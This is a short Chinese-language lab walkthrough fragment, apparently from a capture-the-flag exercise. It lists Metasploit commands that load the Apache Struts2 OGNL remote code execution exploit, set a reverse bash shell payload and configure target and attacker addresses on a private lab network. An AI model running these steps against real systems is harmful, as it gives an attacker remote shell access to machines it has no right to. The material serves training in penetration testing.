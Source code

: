 ### 执行漏洞利用模块（get flag）
```
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
# 选择并使用一个名为 struts2_multi_eval_ognl 的 exploit 模块。这个模块是用于利用 Apache Struts2 的一个远程代码执行漏洞。
use exploit/multi/http/struts2_multi_eval_ognl
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

# 配置 exp 参数
# 确保所有 Required=yes 参数均正确配置

# 靶机 IP
set RHOSTS 192.168.56.216 
# 靶机目标端口
set rport  29551          
# 攻击者主机 IP
set LHOST  192.168.56.214 

# 再次检查 exp 配置参数列表
show options
```

![alt text](image-15.png)